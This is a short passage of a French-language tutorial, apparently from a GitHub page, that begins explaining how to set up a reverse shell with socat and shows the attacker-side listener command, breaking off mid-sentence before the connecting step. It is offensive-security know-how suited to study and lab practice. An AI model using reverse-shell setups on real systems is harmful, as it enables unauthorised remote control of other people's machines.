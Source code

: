 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:8080 -
```

Cette commande est équivalente à faire 